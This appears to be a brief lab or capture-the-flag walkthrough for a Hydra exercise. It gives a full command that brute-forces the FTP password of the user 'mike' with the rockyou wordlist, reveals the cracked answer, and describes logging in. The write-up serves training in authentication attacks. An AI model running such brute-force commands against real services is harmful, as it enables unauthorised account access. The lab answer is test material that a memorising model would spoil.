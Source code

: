 ### Answer the questions below

1. What is the password for the user "mike"?

password

Running the `hydra` command in local machine `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV MACHINE_IP ftp`

<img width="411" height="160" alt="image" src="https://github.com/user-attachments/assets/1a5d5011-d0b4-4798-9ebd-b921bf492834" />

2. What is ftp.txt?

Logging in to the ftp server with correcter username mike and password as password.

<img width="304" height="179" alt="image" src="https://github.com/user-attachments/assets/254f27b9-9e1a-416e-b190-c809746a23c4" />

